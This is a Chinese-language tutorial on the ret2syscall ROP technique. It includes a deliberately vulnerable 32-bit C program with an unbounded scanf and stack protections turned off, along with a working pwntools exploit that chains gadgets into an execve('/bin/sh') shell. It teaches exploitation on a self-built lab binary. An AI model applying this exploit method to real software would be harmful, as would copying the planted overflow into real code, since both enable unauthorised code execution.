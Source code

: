 ```yaml
---
title: "ret2syscall"
description: ""
lead: ""
date: 2023-03-28T21:07:32+08:00
lastmod: 2023-03-28T21:07:32+08:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
    identifier: "ret2syscall-0eacdc5627a9d644483a912a87526e3d"
weight: 2
toc: true
---
```


## 0x01 介绍

syscall又称为系统调用，是操作系统给用户的API接口，可以用来使用电脑资源。首先需要来熟悉系统调用的使用方式，对于32程序来说是通过 `int 0x80` 指令来执行系统调用，而64位程序则是通过 `syscall` 指令来执行。在执行命令前，需要把参数和系统调用号准备好，系统调用号是操作系统分配给不同系统调用的一个数字，以便内核区分它们，我们可以在 `/usr/include/asm/unistd.h` 找到32位和64位的系统调用号分别存储的文件

![bd451c85c8cfb9e7a7d71f72d4318dcd](images/bd451c85c8cfb9e7a7d71f72d4318dcd.png)  

我们可以看一下32位的系统调用号

![34359385b45288b164e6531b2dc74bcf](images/34359385b45288b164e6531b2dc74bcf.png)  

前部分是系统调用名称，比如 `__NR_read` 就是read系统调用，而后半部分就是系统调用号，都是数字，例如 `3` 就是read的系统调用号0。64位的系统调用号也是同理。

当执行内陷指令之前，需要将系统调用号传入ax寄存器中。其次需要在执行内陷指令前要做的就是传递参数给内核，这里不管是32位还是64位的程序都必须用寄存器来传递参数。对于32位来说，参数寄存器的传递顺序是 `ebx、ecx、edx、esi、edi` ，对于64位来说顺序为 `rdi、rsi、rdx、rcx、r8、r9` 。我们以内联汇编的形式来实现一个简单的系统调用

```c
char *buf = "hello world\n";
void main();
asm(
    ".text\n"
    ".global main\n"
    "main:\n"
    // write(1, "hello world\n", 12)
    "mov ebx, 1\n"    // 第一个参数，标准输出流
    "mov ecx, buf\n"    // 第二个参数，字符串地址
    "mov edx, 12\n"    // 第三个参数，输出字节数
    "mov eax, 4\n"    // write的系统调用号
    "int 0x80\n"    // 内陷指令
);
// gcc test.c -o test -m32 -masm=intel
```

运行效果为

![c0fa4df1d7b98a107b9db88fc1f73c30](images/c0fa4df1d7b98a107b9db88fc1f73c30.png)  

而ret2syscall它要完成的就是去调用某个系统调用来完成getshell的操作。ret2syscall作为ROP系列之一，它的核心还是溢出，不过它的难点就在于溢出后的步骤。之前的ret2text是直接返回到程序中已有的getshell代码片段，ret2syscall则没有现成的getshell代码片段出现，它获取shell的方式是通过多个代码片段之间的跳转执行，我们称这多个代码片段组成的类似于链状的执行过程称为ROP链。大概流程如下

![04f861564255fd35278467fc20a8b9d0](images/04f861564255fd35278467fc20a8b9d0.png)  

大概来解释这幅图，首先当执行到函数的ret指令时，ret会跳转到当前栈顶指向的代码处执行，并将当前栈顶移动到下一个栈单元，这里我们将其覆盖成了修改参数寄存器代码片段的地址，接下来一段时间都会去执行修改参数寄存器的操作，直到执行到代码片段的ret指令，对于这条ret指令来说其跳转的地址就是图中第一条虚线即修改ax寄存器的代码片段的地址（应为当前栈顶就是该栈单元），接着就会去执行修改ax寄存器的代码，直到执行到其ret指令处，对于它的ret指令来说返回地址是第二条虚线即内陷指令地址，最后跳转执行内陷指令后即可获取到shell。当然实际情况可能会比这个复杂很多。

对于ret2syscall来说有几个代码片段是必须要有的，首先就是内陷指令片段，正常的程序一般不会有内陷指令，如果有内陷指令的题目大概路就是ret2syscall的方式去解决。其次就是控制ax寄存器的指令，只有控制了ax寄存器才可以设定我们想要的系统调用号。最后就是设定参数的代码片段，每个参数寄存器必须设置为指定的值，否则大概率都是执行失败。

我们以一个例子来说

```c
#include<stdio.h>
char *bin_sh = "/bin/sh";
void hint();
asm(
    ".text\n"
    ".global hint\n"
    "hint:\n"
    "inc eax\n"
    "ret\n"
    "xor eax, eax\n"
    "xor ebx, ebx\n"
    "xor ecx, ecx\n"
    "xor edx, edx\n"
    "ret\n"
    "int 0x80"
);

void run() {
    char buf[0x10];
    printf("input: ");
    scanf("%s", buf);
}

int main() {
    run();
    return 0;
}
// gcc ret2syscall.c -o ret2syscall -no-pie -fno-pic -fno-stack-protector -m32 -masm=intel
```

这里我们以内联汇编的方式写了一些必要的代码片段以完成ret2syscall的操作。在ret2syscall中获取shell的系统调用只有一种即 `execve` 系统调用，它的作用就是执行一个新的程序。execve接收三个参数，第一个参数是程序名称，第二个参数是给程序的参数，第三个参数是环境参数，对于shell来说只需要第一个参数设置为 `/bin/sh` 即可，后两个为null即0就行。

首先是找到修改参数寄存器的代码片段，在上面的源文件中可以很明显看到有 `xor ecx, ecx; xor edx, edx` 这两条指令可以完成第二、三两个参数寄存器的设置。而对于第一个参数寄存器的设置则需要通过其他指令来完成，通常寻找的是 `pop ebx; ret` 代码片段，该代码片段会将当前栈顶的值弹出存入到ebx中并返回下一个栈单元，如果我们在栈顶存入 `/bin/sh` 字符串地址则可以直接完成第一个参数寄存器的设置

![232fb5b32f5452ad8a9d67414334b4c5](images/232fb5b32f5452ad8a9d67414334b4c5.png)  

所有的参数寄存器都执行完成后即可对ax寄存器进行设置，这里存在一个 `inc eax; ret` 代码片段，它可以对eax进行加一的操作，我们只要多次执行这个代码片段直到ax寄存器为execve系统调用号的值就行。最后既可以跳转去执行内陷指令获取shell了。所以整个的栈布局为

![04f411c8c99c68955cdbe5866de7210e](images/04f411c8c99c68955cdbe5866de7210e.png)  

建议可以调试看看具体的ROP链执行过程

然后我们需要找出这些代码片段的地址，这里可以使用 `ROPgadget` 工具来查找

![0bb4220de7d1cd13dbbce3991431580b](images/0bb4220de7d1cd13dbbce3991431580b.png)  

![55b4ddbfa236719c41cc04708c4239b8](images/55b4ddbfa236719c41cc04708c4239b8.png)  

![8748ec9f9380ccc2ff4d633953cc64c8](images/8748ec9f9380ccc2ff4d633953cc64c8.png)  

![b6936a41caea9de420af66aafac841ad](images/b6936a41caea9de420af66aafac841ad.png)  

而execve的系统调用号在文件中可以查到为 `11` ，通过调试我们可以知道当run函数执行到ret指令的时候eax寄存器的值为1。

![4bffa0dbc1505963a34132bb1f4b608b](images/4bffa0dbc1505963a34132bb1f4b608b.png)  

所以inc指令只需要执行10次即可。最终可以写出Exploit

```python
from pwn import*
o = process("./ret2syscall")
bin_sh = 0x8048550    # /bin/sh字符串地址
pop_ebx = 0x8048311    # pop ebx;ret代码片段地址
xor_ret = 0x8048471    # xor ecx, ecx;xor edx, edx;ret代码片段地址
int_80 = 0x8048476    # int 0x80代码片段地址
inc_eax = 0x804846b    # inc eax;ret代码片段地址
payload = b'a'*28    # 填充局部变量和函数返回地址之间的空隙
payload += p32(pop_ebx) + p32(bin_sh)    # 设置第一个参数寄存器
payload += p32(xor_ret)    # 设置第二三个参数寄存器
payload += p32(inc_eax)*10   # eax累加到11
payload += p32(int_80)    # 执行系统调用
o.sendline(payload)
o.interactive()
```

![aa241111f472d5e8dc9d1eed30c466bc](images/aa241111f472d5e8dc9d1eed30c466bc.png)
